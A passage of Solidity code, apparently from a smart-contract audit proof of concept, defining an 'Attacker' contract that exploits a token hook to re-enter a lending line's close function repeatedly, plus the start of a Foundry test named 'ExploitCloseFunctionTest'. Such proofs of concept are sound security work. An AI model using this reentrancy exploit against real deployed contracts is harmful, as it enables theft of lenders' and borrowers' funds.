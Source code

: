 ```
    function registerHook(address addr) external {
        registry[addr] = true;
    }
}

contract Attacker is IHook {
    uint256 constant ATTACK_COUNT = 10;
    SecuredLine line;
    address borrower;
    RevenueTokenWithHook token;
    uint256 count;
    bool attackEnable;
    constructor(address line_, address borrower_, address token_) {
        line = SecuredLine(payable(line_));
        borrower = borrower_;
        token = RevenueTokenWithHook(token_);
        token.registerHook(address(this));
    }
    function tokensReceived(
            address,
            address,
            uint256
        ) external {
        if (msg.sender != address(token)) return;
        if (!attackEnable) return;
        uint256 count_ = count;
        if (count_ >= ATTACK_COUNT) return;
        count = count_ + 1;
        bytes32 id = line.ids(0);
        (uint256 deposit,,,,,,) = line.credits(id);
        token.transfer(address(line), deposit);
        line.close(id);
    }

    function enableAttack() external {
        attackEnable = true;
    }
}


contract ExploitCloseFunctionTest is Test {
    uint256 constant ONE_YEAR = 365.25 days;
    uint256 constant ATTACK_COUNT = 10;
    Escrow escrow;
    Spigot spigot;
    RevenueTokenWithHook supportedToken1;
    RevenueToken supportedToken2;
    RevenueToken unsupportedToken;
    SimpleOracle oracle;
    SecuredLine line;
    uint mintAmount = 100 ether;
    uint MAX_INT = 115792089237316195423570985008687907853269984665640564039457584007913129639935;
    uint32 minCollateralRatio = 10000; // 100%
    uint128 dRate = 100;
    uint128 fRate = 1;
    uint ttl = ONE_YEAR;

    address borrower;
    address arbiter;
    address lender;

    function setUp() public {
        borrower = address(20);
```
